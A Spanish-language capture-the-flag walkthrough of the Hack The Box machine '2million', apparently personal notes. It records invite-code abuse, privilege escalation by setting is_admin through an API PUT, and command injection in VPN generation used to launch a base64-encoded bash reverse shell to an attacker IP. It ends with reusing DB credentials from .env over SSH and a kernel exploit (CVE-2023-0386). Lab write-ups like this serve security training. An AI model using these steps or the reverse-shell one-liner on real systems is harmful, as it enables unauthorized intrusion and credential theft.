2million
- Primero realizo un scaneo de la red
nmap 10.10.11.221 -Pn -sC -sV -O -oN scan_full.txt
- Meto el nombre de dominio en /etc/hosts
- Hago una enumeración de directorios con dirb
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://2million.htb -b 301
- Encuentro dos directorios interesantes que son /invite y /login
- Dentro de /invite veo el código y encuentro una llamada a una script inviteapi.min.js
- Accedo a ella y veo que está obfuscada por lo que la desofusco con https://lelinhtinh.github.io/de4js/
- Me aparecen 2 funciones muy interesantes que son /api/v1/invite/verify y /api/v1/invite/how/to/generate
- Realizo un POST con Burpsuite para ver que me devuelve
- Me dice que está encriptada en ROT13
- Lo desencripto y me dice “In order to generate the invite code, make a POST request to \/api\/v1\/invite\/generate”
- Realizo el POST y me devuelve un código “NlJXOEktMlhOTlAtUFpOSkwtVFlaR04=”
- Este código está encoded en base 64
- Lo descodifico con echo "NlJXOEktMlhOTlAtUFpOSkwtVFlaR04=">code.txt | base64 -d
- Puedo crear un usuario con ese codigo de invitación (Parece ser que solo puede haber usuarios con invitación)
- Me redirige al Login por lo que entro y me manda al dashboard /home
- /acces es muy importante porque puedo descargar las vpns que uso
- Le doy a descargar Connection Pack y lo intercepto con Burpsuite
- Encuentro que es un archivo OpenVPN
- Al ser un GET puedo solicitar la version, nos dice que es v1
- Realizo un GET a /api/v1 y encuentro un metodo de auntentificación de admin

- Realizo un get a /api/v1/admin/auth para ver si soy admins
- Puedo enviar otros métodos como POST o PUT
- Con PUT a la url /api/v1/admin/settings/update me devuelve 200

- Da este error porque CONTENT-TYPE tiene que estar en json
- Nos pide el parámetro email

- Ahora me pide el parámetro is_admin que probablemente sea un tipo de dato Boolean

- Meto el parámetro "is_admin=true" y me dice que tiene que ser 0 o 1
- Y me devuelve

- Checkeo si soy admin con el método /auth y me devuelve el “message : true”
- Ahora accedo a /vpn/generate para ver que puedo hacer
- Se me genera la vpn

- Para generar esta vpn se usan funciones PHP, por lo que intento hacer un command injection después del username para que no me ponga que faltan parámetros


- Veo que si que puedo ejecutar comandos por lo que generaré un reverse shell encodeado en base64 bash -i >& /dev/tcp/IP/PORT 0>&1
- Lo codifico a base64 y lo introduzco en el command injection

- Encuentro el usuario admin que tiene la flag user.txt tengo que hacer movimiento lateral a ese usuario

- Encuentro el archivo .env oculto ls -al cat .env
- Me da las credenciales del usuario admin de la db

- En el escaneo vi que tenía un servicio SSH activo por lo que entro con el usuario admin y la contraseá que encontré antes
- Encuentro la flag user.txt
- Después de buscar un rato encuentro un archivo en mail que dice que hay CVE en el kernel.
- Busco la versión del kernel con “uname -a”

- Encuentro que puedo usar el CVE-2023-0386
- Lo clono en mi máquina atacante
- Se lo paso a mi máquina objetivo y sigo los pasos del POC